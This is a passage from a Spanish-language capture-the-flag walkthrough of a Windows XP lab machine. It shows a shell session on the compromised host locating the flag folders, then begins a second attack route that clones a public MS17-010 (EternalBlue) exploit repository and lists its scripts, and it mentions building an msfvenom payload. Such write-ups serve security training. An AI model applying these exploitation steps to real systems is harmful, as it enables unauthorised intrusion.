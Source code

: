 * Ya solo buscamos las flags y ya tendríamos lista esta máquina:
```batch
C:\WINDOWS\system32>cd C:\
cd C:\
C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 54BF-723B
 Directory of C:\
16/03/2017  08:30 ��                 0 AUTOEXEC.BAT
16/03/2017  08:30 ��                 0 CONFIG.SYS
16/03/2017  09:07 ��    <DIR>          Documents and Settings
29/12/2017  11:41 ��    <DIR>          Program Files
02/04/2023  02:43 ��                 0 pwned.txt
18/05/2022  03:10 ��    <DIR>          WINDOWS
               3 File(s)              0 bytes
               3 Dir(s)   6.403.969.024 bytes free
C:\>cd "Documents and Settings"
cd "Documents and Settings"
C:\Documents and Settings>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 54BF-723B
 Directory of C:\Documents and Settings
16/03/2017  09:07 ��    <DIR>          .
16/03/2017  09:07 ��    <DIR>          ..
16/03/2017  09:07 ��    <DIR>          Administrator
16/03/2017  08:29 ��    <DIR>          All Users
16/03/2017  08:33 ��    <DIR>          john
               0 File(s)              0 bytes
               5 Dir(s)   6.403.964.928 bytes free
```
Las flags están en **John** y **Administrator**.

Bueno, existen otras dos formas de poder ganar acceso a esta máquina, una será usando una variante del Exploit de **GitHub** que ya usamos, y la otra será usando el **Metasploit Framework**, así que, primero vamos a probar la variante.

<h2 id="Exploit3">Variante de Exploit eternalBlue de GitHub</h2>

Esta forma la encontré usando el método que se usó en el siguiente link: 
* <a href="https://ivanitlearning.wordpress.com/2019/02/24/exploiting-ms17-010-without-metasploit-win-xp-sp3/" target="_blank">Exploiting MS17-010 without Metasploit (Win XP SP3)</a>

Vamos a descargar el siguiente repositorio: 
* <a href="https://github.com/helviojunior/MS17-010" target="_blank">Repositorio de helviojunior: MS17-010</a>

Este que contiene una variante del **zzz_exploit.py** que, por así decirlo, nos automatiza un poco el proceso, pues ya solo tendríamos que comentar un par de líneas y debemos crear un Payload con **Msfvenom** como en la **máquina Blue**.
```bash
git clone https://github.com/helviojunior/MS17-010.git
Clonando en 'MS17-010'...
remote: Enumerating objects: 202, done.
remote: Total 202 (delta 0), reused 0 (delta 0), pack-reused 202
Recibiendo objetos: 100% (202/202), 118.50 KiB | 905.00 KiB/s, listo.
Resolviendo deltas: 100% (115/115), listo.
.
ls
BUG.txt                  eternalblue_poc.py       eternalromance_leak.py  eternalsynergy_poc.py  npp_control.py       zzz_exploit.py
checker.py               eternalchampion_leak.py  eternalromance_poc2.py  infoleak_uninit.py     README.md
eternalblue_exploit7.py  eternalchampion_poc2.py  eternalromance_poc.py   mysmb.py               send_and_execute.py
```